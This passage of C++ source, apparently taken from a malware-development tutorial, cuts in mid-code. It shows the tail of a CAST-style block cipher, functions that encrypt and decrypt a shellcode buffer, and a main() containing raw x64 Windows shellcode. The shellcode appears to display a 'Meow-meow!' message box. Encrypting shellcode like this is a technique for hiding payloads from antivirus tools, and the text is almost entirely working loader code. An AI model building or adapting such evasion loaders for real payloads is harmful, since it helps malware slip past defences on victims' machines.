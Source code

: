 ```cpp
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);
```